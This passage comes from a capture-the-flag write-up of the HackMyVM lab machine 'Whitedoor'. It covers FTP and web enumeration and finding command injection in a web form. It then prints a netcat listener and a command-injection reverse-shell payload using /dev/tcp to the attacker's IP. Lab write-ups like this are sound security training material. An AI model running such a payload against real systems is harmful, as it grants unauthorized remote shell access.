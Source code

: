 ```bash
13 bytes received in 00:00 (0.19 KiB/s)
ftp> put test 
local: test remote: test
229 Entering Extended Passive Mode (|||51975|)
550 Permission denied.
ftp> pwd
Remote directory: /
ftp> exit
221 Goodbye.


```
The upload failed, but we were able to download the file. We should inspect this file.

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Whitedoor]
└─$ cat README.txt 
¡Good luck!
```
Nothing useful yet! We should check the webservice now. We can run whatweb to see what technologies is used.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Whitedoor]
└─$ whatweb http://$ip
http://10.0.2.7 [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[10.0.2.7], Title[Home]

```
For the moment we don't hace any new information yet. It might be a good idea if we visit the website with the browser.

![image](/assets/img/WriteUp/HackMyVM/Whitedoor/Pasted image 20231220220202.png){: width="700" height="400" }

Let's try to submit an empty form. Perhaps an error is shown to us.

![image](/assets/img/WriteUp/HackMyVM/Whitedoor/Pasted image 20231220220239.png){: width="700" height="400" }

The message displayed on the screen tells us we can run the command `ls`. This si a system command. This makes is it probably vulnerable to command injection.

![image](/assets/img/WriteUp/HackMyVM/Whitedoor/Pasted image 20231220220318.png){: width="700" height="400" }

Let's try to run the following `ls;id;whoami;hostname;ip a; pwd`. Now we should start our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Whitedoor]
└─$ rlwrap nc -lvp 4321
```

## Initial access
Since this website is vulnerable for command injection we can start a reverse shell to our machine with the following command.
```bash
ls; bash -c 'exec bash -i &>/dev/tcp/10.0.2.5/4321 <&1'
```
![image](/assets/img/WriteUp/HackMyVM/Whitedoor/Pasted image 20231220220928.png){: width="700" height="400" }
